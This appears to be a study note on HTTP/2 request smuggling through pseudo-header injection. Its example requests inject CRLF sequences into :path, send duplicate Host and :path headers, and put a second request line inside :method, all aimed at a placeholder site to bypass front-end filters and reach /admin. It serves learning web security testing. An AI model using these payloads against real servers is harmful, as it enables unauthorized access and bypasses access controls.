 ## Injecting via pseudo-headers

>[!tip] Remember
>When injecting into the `:path` or `:method` pseudo-headers, you need to make sure that the resulting HTTP/1 request still has a valid request line.
>After downgrading, the rewritten request must contain the following sequence prior to the first `\r\n` that you inject:
>`<method> + space + <path> + space + HTTP/1.1`

Front-end (HTTP/2)
```http
:method	GET
:path	
/example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x

:authority	vulnerable-website.com
```

Back-end (HTTP/1)
```http
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

**Host**:
Although the HTTP/1 `Host` header is effectively replaced by the `:authority` pseudo-header in HTTP/2, you're still allowed to send a `host` header in the request as well.
In some cases, this may result in two `Host` headers occurring in the rewritten HTTP/1 request, which opens up another possibility for bypassing front-end "duplicate `Host` header" filters, for example, opening to [Host Header attacks](Host%20Header%20attacks.md).

**Path**:
As the path in HTTP/2 is specified using a pseudo-header, it's now possible to send a request with two distinct paths as follows:
```http
:method	POST
:path	/anything
:path	/admin
:authority	vulnerable-website.com
```
If there is a discrepancy between which path is validated by the website's [Access control security models](Access%20control%20security%20models.md) and which path is used to route the request, this may enable you to access endpoints that would otherwise be off limits, opening for [Access control vulnerabilities](Access%20control%20vulnerabilities.md)

**Method**:
If the server allows you to include spaces in the `:method` value, you may be able to inject an entirely different request line as follows:
```http
:method	GET /admin HTTP/1.1
:path	/anything
:authority	vulnerable-website.com
```

